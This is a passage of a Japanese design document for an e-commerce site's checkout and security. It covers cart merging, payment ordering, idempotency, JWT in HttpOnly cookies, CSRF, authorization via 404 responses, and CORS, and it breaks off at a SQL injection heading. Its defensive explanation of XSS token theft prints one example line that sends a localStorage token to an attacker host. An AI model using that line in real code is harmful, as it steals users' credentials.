

| ID | 設計事項 |
|---|---|
| DS-421 | JWT を Frontend に返さない。BFF が HttpOnly Cookie に格納する |
| DS-422 | 認証の失敗時、メールアドレスとパスワードのいずれが誤りであるかを示さない |
| DS-423 | パスワードの照合に要する時間を、会員の存在有無によらず一定に保つ |

**DS-422 の理由**

「このメールアドレスは登録されていません」と応答すると、任意のアドレスについて会員
であるか否かを判別できる。会員の存在自体が個人に関する情報である。

**DS-423 の理由**

会員が存在しない場合に即座に応答すると、応答時間の差から会員の有無を判別できる。
存在しない場合もハッシュの照合と同等の時間を消費する。

#### 4.2.2 カートの統合

未ログインのカートと、当該会員の既存のカートが両方存在する場合の扱いを定める。

| 状態 | 処理 |
|---|---|
| 会員のカートが存在しない | session_id のカートに member_id を設定する |
| 会員のカートが存在する | 明細を会員のカートへ移し、session_id のカートを削除する |

**同一SKUが双方に存在する場合**

数量を合算せず、**会員のカートの数量を維持する**。

合算すると、引当を追加で取得する必要が生じる。ログインという操作の結果として在庫の
引当が発生し、失敗しうる状態は望ましくない。

| ID | 設計事項 |
|---|---|
| DS-424 | カートの統合において、同一SKUの数量を合算しない |
| DS-425 | 統合により破棄される明細がある場合、その旨を顧客に表示する |
| DS-426 | 破棄された明細に紐づく reservation を RELEASED とする |

DS-425 について。顧客は未ログイン時にカートへ入れた商品が消えたと認識する。理由を
示さなければ問い合わせの原因となる。

#### 4.2.3 引当の引き継ぎ

未ログインのカートに紐づく reservation は、cart_item を参照している（3.3.5）。
統合により cart_item が会員のカートへ移動する場合、reservation の参照先は変わらない。

したがって、**引当の期限（expires_at）はログインによって延長されない**。未ログイン
時に投入してから60分が経過していれば、ログイン後も引当は失効している。

| ID | 設計事項 |
|---|---|
| DS-427 | ログインを契機として expires_at を延長しない |

延長する設計も考えられるが、採らない。ログインという操作は在庫の確保を要求するもの
ではなく、延長する根拠がない。また延長を認めると、ログインの繰り返しにより引当を
無期限に保持できる。

### 4.3 配送方法・支払方法の選択

顧客が配送方法と支払方法を選択する。選択肢の間に依存関係があり、一方の選択が他方の
選択可否に影響する（要件定義書 5.10.2.1）。

#### 4.3.1 シーケンス



#### 4.3.2 可否の判定を Backend で行う理由

選択可否の判定を Frontend に持たせない。

| ID | 設計事項 |
|---|---|
| DS-431 | 選択肢の可否は Backend が判定し、結果を Frontend へ返す |
| DS-432 | 判定結果には、選択できない理由を含める |
| DS-433 | 注文確定時に、組み合わせの整合を再検証する |

**DS-431 の理由**

判定条件を Frontend に持たせると、条件の変更のたびに Frontend の改修が必要となる。
また、Frontend の判定を回避した要求を送ることが可能であり、Backend での検証が
いずれにせよ必要となる。判定を1箇所に置くほうが、条件の不一致を生じない。

**DS-432 の理由**

要件定義書 FR-563-11 および FR-563-12 による。理由の表示は、現在の選択のうち原因と
なっているものを特定して示す。

応答の形式は6章（API設計）において定める。

#### 4.3.3 判定の内容

①で扱う制約は以下である（要件定義書 5.10.2.1）。

| 支払方法 | 選択不可となる条件 |
|---|---|
| 後払い | 店舗受取り、ネコポス、または置き配を選択している |
| 代金引換え | 置き配を指定している |

ネコポスの寸法判定は①の対象外とする（2.2）。したがって配送方法は常に3種すべてが
選択可能である。

| ID | 設計事項 |
|---|---|
| DS-434 | 制約の判定条件を、コードに埋め込まず設定として保持する |

DS-434 は要件定義書 NFR-62 による。支払方法または配送方法が追加された場合、判定
条件が増加する。コードに埋め込むと、追加のたびに改修が必要となる。

#### 4.3.4 金額の算出

金額の算出を Backend で行う。Frontend でも同一の計算を行い、表示する。

| ID | 設計事項 |
|---|---|
| DS-435 | 金額の算出を Backend で行い、確定値とする |
| DS-436 | Frontend が算出した値と Backend の値を照合し、不一致の場合は処理を中断する |

**DS-436 の理由**

Frontend の計算は顧客への即時の表示を目的とする。Backend の計算は、改ざんされた
金額での注文を排除することを目的とする。目的が異なるため、いずれも必要である。

不一致が生じる原因は2つある。

| 原因 | 対応 |
|---|---|
| 実装の齟齬（送料の基準額の解釈の相違等） | 開発時に検出すべき不具合 |
| 改ざん | 処理を中断し、記録する |

**顧客に対しては、いずれの場合も同一の応答とする。** 改ざんを検出した旨を示すと、
検証の仕組みが推測される。

#### 4.3.5 表示義務

注文確定前に、以下を表示する（要件定義書 FR-566-01 〜 FR-566-04）。

| 分類 | 表示内容 |
|---|---|
| 商品 | SKU、数量、単価、小計 |
| 加工 | すそ上げの加工方法、丈、加工料 |
| 金額 | 商品合計、加工料、送料、支払手数料、消費税、総額 |
| 配送 | 配送方法、置き配指定 |
| 支払 | 支払方法、支払時期 |
| 返品 | 返品・交換の可否および条件 |

| ID | 設計事項 |
|---|---|
| DS-437 | すそ上げ加工品を含む場合、返品・交換ができない旨を確認画面に表示する |
| DS-438 | 置き配を選択している場合、その旨および責任の所在を表示する |
| DS-439 | 表示内容を注文の確定時点で order および order_item に記録する |

**DS-437 の理由**

すそ上げの選択は商品詳細で行われ、その時点で返品不可の表示がある（要件定義書
FR-564-05）。しかし注文確定の段階で再度示されなければ、顧客が当該条件を認識した
うえで注文を確定したとは言い難い。

特定商取引法において、返品特約は顧客が注文前に認識できる形で表示する必要がある。

**DS-439 の理由**

表示した内容と、記録される内容が一致していることを事後に確認できる状態とする。
order_item に注文時点の値をコピーする設計（3.3.10）は、この要請にも対応する。

### 4.4 注文確定

顧客が確認画面で注文を確定する。在庫の引当を確定し、決済を実行し、注文を作成する。

#### 4.4.1 処理の順序に関する判断

本処理には、DBの更新と外部サービス（PSP）への通信が含まれる。両者を1つのトランザ
クションで扱うことはできない。DBはロールバックできるが、PSPへの決済要求は取り消し
の要求を別途送る必要がある。

順序として2つの案がある。

| 案 | 順序 | 失敗時に生じる状態 |
|---|---|---|
| A | 決済 → 在庫確定 | 決済は成立したが在庫が確保できない |
| B | 在庫確定 → 決済 | 在庫は確保したが決済が成立しない |

**Bを採用する。**

Aで失敗した場合、顧客は代金を支払ったが商品を得られない状態に置かれる。返金の処理が
必要となり、その処理も失敗しうる。

Bで失敗した場合、在庫が確保されたまま注文が成立しない状態となる。この状態は引当の
解放により回復でき、顧客に金銭的な不利益が生じない。

**回復の容易さと、顧客が負う不利益の大きさにより判断する。**

| ID | 設計事項 |
|---|---|
| DS-441 | 在庫の確定を決済に先行させる |
| DS-442 | 決済が失敗した場合、確定した引当を解放する |

#### 4.4.2 シーケンス（正常系）



#### 4.4.3 注文のステータス

2.4 において「注文ステータスの多段階化は②に回す」とした。ただし①においても、決済の
完了前後を区別する必要がある。

| status | 意味 |
|---|---|
| PENDING_PAYMENT | 在庫は確定したが決済が完了していない |
| CONFIRMED | 決済が完了した |
| FAILED | 決済に失敗し、引当を解放した |

②で追加されるステータス（店舗確認待ち、受取待ち等）とは性格が異なる。①のステータス
は決済処理の途中経過を表すものであり、業務上の状態ではない。

| ID | 設計事項 |
|---|---|
| DS-443 | 注文の作成時に PENDING_PAYMENT とし、決済の完了により CONFIRMED とする |
| DS-444 | PENDING_PAYMENT の注文を顧客の注文履歴に表示しない |

#### 4.4.4 決済が失敗した場合



| ID | 設計事項 |
|---|---|
| DS-445 | 決済の失敗時、在庫を戻し、引当を解放する |
| DS-446 | 補償処理が失敗した場合、記録を残し、再実行できる構成とする |
| DS-447 | カートの内容を保持し、顧客が支払方法を変更して再試行できるようにする |

**DS-447 の理由**

決済の失敗は、カード情報の誤入力や与信の否決により生じる。顧客が支払方法を変更して
再試行することは通常の行為である。カートを削除すると、商品の選択からやり直しとなる。

ただし、この時点で引当は解放されている。再試行の際に在庫が確保できない可能性がある。

#### 4.4.5 決済の応答が得られない場合

PSPへの通信がタイムアウトした場合、決済が成立したか否かが不明となる。

**この状態を「失敗」として扱ってはならない。** 決済が成立していた場合、顧客は代金を
支払ったが注文が存在しない状態に置かれる。

| ID | 設計事項 |
|---|---|
| DS-448 | 決済の応答が得られない場合、注文を PENDING_PAYMENT のまま保持する |
| DS-449 | PSP に対して取引の状態を照会し、結果に応じて CONFIRMED または FAILED とする |
| DS-450 | 照会が完了するまで、在庫を戻さない |
| DS-451 | 顧客に対しては、処理中である旨を表示する |
| DS-452 | 決済要求に注文番号を含め、同一注文番号による重複実行を排除する |

**DS-450 の理由**

決済が成立していた場合、在庫を戻すと二重に販売されうる。状態が確定するまで在庫を
保持する。

**DS-452 の理由**

再試行により決済が二重に実行されることを避ける。決済要求に注文番号を含め、PSP側で
同一の注文番号による重複を排除する。

#### 4.4.6 引当が失効していた場合

確認画面を表示してから注文を確定するまでの間に、引当の期限（60分）が経過している
場合がある。



| ID | 設計事項 |
|---|---|
| DS-453 | 引当が失効していても、在庫が確保できる場合は注文を成立させる |
| DS-454 | 在庫が確保できない場合、該当するSKUを顧客に示す |

**DS-453 の理由**

引当の期限は在庫の死蔵を防ぐためのものであり、注文を妨げることを目的としない
（要件定義書 5.6.1.1）。期限が切れていても在庫があるなら、注文を成立させることが
顧客と事業者の双方にとって望ましい。

#### 4.4.7 認可の確認

注文の確定は、カートの所有者のみが実行できる。

| ID | 設計事項 |
|---|---|
| DS-455 | Cookie から取り出した会員IDと、対象カートの member_id が一致することを確認する |
| DS-456 | 一致しない場合、404 Not Found を返す |

**DS-456 の理由**

403 Forbidden を返すと、当該カートが存在することを示すことになる。カートIDを変えて
試行することで、他の顧客のカートの存在を判別できる。存在の有無を示さないため、
404 とする。

これは認証と認可の区別に関わる。認証は「誰であるか」を確認し、認可は「その操作を
してよいか」を確認する。ログイン済みであることは、他人のカートを操作してよいことを
意味しない。

#### 4.4.8 冪等性

顧客が確定ボタンを二度押した場合、または通信の再送が生じた場合に、注文が二重に
作成されることを避ける。

| ID | 設計事項 |
|---|---|
| DS-457 | 注文の作成要求に冪等キーを含める |
| DS-458 | 同一の冪等キーによる要求に対し、最初の処理結果を返す |

冪等キーは、確認画面の表示時に Backend が発行し、Frontend が保持する。

Frontend 側でボタンを無効化する対応も併せて行うが、それのみに依存しない。通信の
再送は Frontend の制御外で生じうる。

### 4.5 未確定事項

1. 決済の応答が得られない場合の照会の実行間隔および試行回数
2. 冪等キーの有効期間
3. 補償処理が失敗した場合の再実行の仕組み

## 5. セキュリティ設計

### 5.1 本章の位置づけ

要件定義書7章において定めた要件を、実現方式として具体化する。

| 節 | 内容 |
|---|---|
| 5.2 | 全体構成（BFF を置く理由） |
| 5.3 | 認証（JWT、パスワード） |
| 5.4 | 認可 |
| 5.5 | セッションと Cookie |
| 5.6 | CORS |
| 5.7 | 入力値の検証と SQL インジェクション |
| 5.8 | 決済情報の取扱い |
| 5.9 | ログの出力 |
| 5.10 | 依存ライブラリの管理 |
| 5.11 | その他 |

### 5.2 全体構成

#### 5.2.1 構成



| 要素 | 公開範囲 |
|---|---|
| Frontend | 公開 |
| BFF | 公開 |
| Backend | **非公開**。BFF からのみ到達可能とする |
| DB | 非公開 |

| ID | 設計事項 |
|---|---|
| DS-521 | Backend をインターネットから直接到達できない構成とする |
| DS-522 | Backend への要求は BFF を経由したもののみを受け付ける |

#### 5.2.2 BFF を置く理由

BFF（Backend For Frontend）は、Frontend からの要求を受け、Backend へ中継する層で
ある。本設計では以下の3つを担う。

| 役割 | 内容 |
|---|---|
| 認証情報の保持 | JWT を HttpOnly Cookie に格納し、Frontend の JavaScript から到達できない状態とする |
| 同一オリジンの提供 | Frontend と BFF を同一オリジンとし、CORS の設定を最小限にする |
| Backend の隠蔽 | Backend のエンドポイントを外部に露出させない |

第1の役割が本設計における主眼である。

### 5.3 認証

#### 5.3.1 JWT の保持場所

**JWT を Frontend の JavaScript から到達できない場所に保持する。**

| 項目 | 内容 |
|---|---|
| 保持場所 | HttpOnly Cookie（BFF が管理） |
| Cookie 属性 | HttpOnly, Secure, SameSite=Lax |
| Frontend からの参照 | 不可 |

| ID | 設計事項 |
|---|---|
| DS-531 | JWT を localStorage および sessionStorage に保持しない |
| DS-532 | JWT を HttpOnly 属性の Cookie に保持する |
| DS-533 | Frontend に JWT を返却しない |

**localStorage を用いない理由**

localStorage は JavaScript から読み取り可能である。XSS が成立した場合、以下の
1行でトークンが外部へ送信される。

```javascript
fetch('https://attacker.example/', { method: 'POST', body: localStorage.getItem('token') })
```

XSS の完全な防止は困難である。入力を受け付ける箇所が多く、いずれか1箇所の検証が
漏れれば成立する。したがって、XSS が成立した場合でも認証情報が奪取されない構成を
採る。

HttpOnly 属性を付与した Cookie は `document.cookie` から参照できない。一方、
ブラウザは要求のたびに自動的に付与するため、認証は成立する。

#### 5.3.2 Cookie を用いることによるリスク

Cookie はブラウザが自動送信するため、他サイトからの要求にも付与される。これにより
CSRF（クロスサイトリクエストフォージェリ）が成立しうる。

| ID | 設計事項 |
|---|---|
| DS-534 | Cookie に SameSite=Lax を付与する |
| DS-535 | 状態を変更する操作（POST / PUT / DELETE）について、CSRF トークンの一致を確認する |
| DS-536 | CSRF トークンを Cookie とは別の経路（レスポンスボディまたはヘッダ）で受け渡す |

**DS-534 について**

SameSite=Lax は、他サイトを起点とする POST 要求に Cookie を付与しない。

**DS-535 について**

SameSite のみに依存しない。ブラウザの実装差、および将来の仕様変更に対する備えで
ある。CSRF トークンは、サーバーが発行した値を要求に含めさせ、Cookie の値と照合
する。攻撃者は Cookie の値を読めないため、一致する値を送れない。

**トレードオフの整理**

| 保持場所 | XSS への耐性 | CSRF への耐性 |
|---|---|---|
| localStorage | 低い | 高い（自動送信されない） |
| HttpOnly Cookie | 高い | 低い（対策を要する） |

いずれもリスクがゼロにはならない。Cookie を選択する理由は、CSRF の対策が確立して
おり実装が容易であるのに対し、XSS の完全な防止が困難であるためである。

#### 5.3.3 JWT の内容

| 項目 | 内容 |
|---|---|
| 保持する情報 | 会員ID、発行時刻、有効期限 |
| 保持しない情報 | 氏名、メールアドレス、住所その他の個人情報 |
| 署名アルゴリズム | HS256 または RS256 |
| 有効期限 | 【要検討】 |

| ID | 設計事項 |
|---|---|
| DS-537 | JWT のペイロードに個人情報を含めない |
| DS-538 | 署名を検証しない JWT を受け付けない |
| DS-539 | alg ヘッダに none を指定した JWT を拒否する |

**DS-537 の理由**

JWT のペイロードは Base64 でエンコードされているが、暗号化されていない。デコード
すれば内容を読める。ログや通信の記録に残った場合、個人情報が露出する。

**DS-539 の理由**

JWT の仕様には署名なし（alg: none）が定義されている。署名の検証を実装で誤ると、
任意の内容の JWT を受け入れることになる。会員IDを書き換えた JWT により、他人に
なりすませる。

#### 5.3.4 パスワード

| 項目 | 内容 |
|---|---|
| 保持形式 | ハッシュ値。平文は保持しない |
| アルゴリズム | bcrypt または Argon2 |
| ソルト | 会員ごとに異なる値を使用する |

| ID | 設計事項 |
|---|---|
| DS-540 | パスワードを平文またはリバーシブルな暗号化により保持しない |
| DS-541 | パスワード用に設計されたハッシュ関数を用いる |
| DS-542 | ログイン失敗時の応答内容および応答時間を、会員の存在有無によらず一定とする |

**DS-541 について**

SHA-256 等の汎用のハッシュ関数を用いない。計算が高速であるため、総当たりによる
解読が容易となる。bcrypt および Argon2 は意図的に計算を遅くしており、総当たりの
コストを引き上げる。

DS-542 は 4.2.1（DS-422、DS-423）による。

### 5.4 認可

#### 5.4.1 認証と認可の区別

| | 確認する内容 |
|---|---|
| 認証 | 要求者が誰であるか |
| 認可 | 要求者がその操作を実行してよいか |

**ログイン済みであることは、任意のデータを操作してよいことを意味しない。**

| ID | 設計事項 |
|---|---|
| DS-543 | データを参照または更新する操作において、要求者が当該データの所有者であることを確認する |
| DS-544 | 確認は Backend で行い、Frontend の制御に依存しない |

#### 5.4.2 対象となる操作

| 操作 | 確認内容 |
|---|---|
| カートの参照・更新 | cart.member_id または cart.session_id が要求者と一致するか |
| 注文の参照 | order.member_id が要求者と一致するか |
| 注文の作成 | 対象のカートの所有者と一致するか |

#### 5.4.3 応答

所有者でない場合、**404 Not Found を返す。**

| ID | 設計事項 |
|---|---|
| DS-545 | 所有者でない資源への要求に対し、404 Not Found を返す |

403 Forbidden を返すと、当該資源が存在することを示すことになる。識別子を変えて
試行することで、他の顧客の注文やカートの存在を判別できる（4.4.7 参照）。

### 5.5 セッションと Cookie

#### 5.5.1 session_id

未ログイン時のカートを識別するために用いる（3.3.7）。

| 項目 | 内容 |
|---|---|
| 生成方式 | 暗号論的に安全な乱数生成器による |
| 長さ | 128ビット以上 |
| 保持場所 | HttpOnly Cookie |
| 有効期間 | 【要検討】 |

| ID | 設計事項 |
|---|---|
| DS-551 | session_id に推測可能な値（連番、時刻を基にした値）を用いない |
| DS-552 | session_id を HttpOnly Cookie に保持する |
| DS-553 | ログイン時に session_id を再生成する |

**DS-551 の理由**

推測可能な値を用いると、他の顧客のカートを参照できる。カートの内容は購買の意図を
示す情報であり、個人に関する情報として扱う。

**DS-553 の理由**

セッション固定攻撃を防ぐ。攻撃者が用意した session_id を顧客に使用させ、その顧客が
ログインした後に同一の session_id で操作する攻撃である。ログインを契機として値を
再生成すれば、攻撃者が保持する値は無効となる。

#### 5.5.2 Cookie の属性

| 属性 | 値 | 理由 |
|---|---|---|
| HttpOnly | 有効 | JavaScript からの参照を防ぐ |
| Secure | 有効 | HTTPS 以外では送信しない |
| SameSite | Lax | 他サイトを起点とする POST に付与しない |
| Domain | 明示的に指定しない | サブドメインへの送信を防ぐ |
| Path | / | |

### 5.6 CORS

#### 5.6.1 方針

Frontend と BFF を同一オリジンとする。これにより、通常の操作において CORS の設定を
必要としない。

| ID | 設計事項 |
|---|---|
| DS-561 | Frontend と BFF を同一のオリジンで提供する |
| DS-562 | Backend に対する CORS の設定を行わない（BFF からのサーバー間通信であるため） |

#### 5.6.2 やむを得ず設定する場合

開発環境等でオリジンが異なる場合、以下による。

| ID | 設計事項 |
|---|---|
| DS-563 | Access-Control-Allow-Origin にワイルドカード（*）を用いない |
| DS-564 | 許可するオリジンを列挙し、要求元と一致する場合のみ応答する |
| DS-565 | Access-Control-Allow-Credentials を有効とする場合、オリジンの列挙を必須とする |

**DS-565 の理由**

Credentials を有効とすると Cookie が送信される。この状態でワイルドカードを指定
することは仕様上禁止されているが、要求元のオリジンをそのまま反射して応答する実装
は、実質的にワイルドカードと同等となる。

### 5.7 入力値の検証

#### 5.7.1 検証の位置

| 位置 | 目的 |
|---|---|
| Frontend | 顧客への即時のフィードバック |
| Backend | 不正な要求の排除 |

| ID | 設計事項 |
|---|---|
| DS-571 | すべての入力値を Backend で検証する |
| DS-572 | Frontend の検証を Backend の検証の代替としない |

Frontend を経由しない要求を送ることは可能である。ブラウザの開発者ツール、または
HTTP クライアントにより、任意の値を Backend へ送信できる。

#### 5.7.2 SQL インジェクション

| ID | 設計事項 |
|---|---|
